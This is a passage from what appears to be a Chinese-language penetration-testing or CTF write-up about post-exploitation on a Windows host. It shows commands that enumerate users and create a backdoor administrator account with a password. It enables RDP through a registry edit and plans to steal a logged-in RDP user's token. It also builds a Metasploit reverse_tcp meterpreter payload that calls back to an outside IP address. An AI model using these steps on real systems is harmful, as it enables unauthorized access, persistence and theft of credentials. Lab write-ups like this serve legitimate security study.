 

```
C:\Tmp>net user

\\ 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
John                     test
命令运行完毕，但发生一个或多个错误。
```



```
C:\Tmp>quser
 用户名                会话名             ID  状态    空闲时间   登录时间
 john                  rdp-tcp#0           2  运行中       2:38  2025/3/9 18:30
```

发现一个john用户远程连接本台机子



为了方便可以新建一个用户rdp连上去

```
C:\Tmp>net user xrntkk Abc20060201 /add
命令成功完成。

C:\Tmp>net localgroup administrators xrntkk /add
命令成功完成。

C:\Tmp>REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
操作成功完成。
```

![image-20250309212215376](../assets/image-20250309212215376.png)



管理员权限可以偷RDP用户的token，从而查看其挂载的盘。

这里可以用msf的incognito模块

```
ubuntu@VM-20-9-ubuntu:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=106.55.168.231  LPORT=9999 -f exe -o msf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: msf.exe
```

先用msf上个线
